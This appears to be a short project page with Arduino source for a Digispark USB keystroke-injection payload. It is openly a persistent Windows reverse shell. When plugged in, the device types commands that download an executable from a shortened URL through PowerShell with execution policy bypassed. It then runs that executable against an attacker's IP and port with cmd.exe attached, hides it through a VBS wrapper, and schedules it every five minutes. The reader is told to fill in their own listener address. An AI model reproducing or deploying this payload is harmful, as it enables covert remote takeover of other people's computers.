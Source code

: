 This payload is a reverse shell that runs in the background every 5 minutes. Replace [IP] with your listening IP and [PORT] with a port of your choice. (Ex. 25565).

(Payload runs only once)

  #include "DigiKeyboard.h"
void setup() {
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.delay(100);
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
  DigiKeyboard.delay(300);
  DigiKeyboard.print("cmd");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(1000);
  DigiKeyboard.print("cd / & mkdir System & cd System & echo (wget 'https://tinyurl.com/y88r9epk' -OutFile a.exe) > b.PS1 & powershell -ExecutionPolicy ByPass -File b.ps1");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(100);
  DigiKeyboard.print("echo START /MIN a.exe [IP] [PORT] -e cmd.exe -d ^& exit > d.bat");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(100);
  DigiKeyboard.print("echo Set WshShell = CreateObject('WScript.Shell') > c.vbs");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(50);
  DigiKeyboard.print("echo WshShell.Run chr(34) ^& C:/System/d.bat ^& Chr(34), 0 >> c.vbs");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(50);
  DigiKeyboard.print("echo Set WshShell = Nothing >>> c.vbs");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(50);
  DigiKeyboard.print("schtasks /create /tn TaskSystem /tr C:/System/c.vbs /sc minute /mo 5");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(75);
  DigiKeyboard.print("d.bat & exit");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
}
void loop() {
}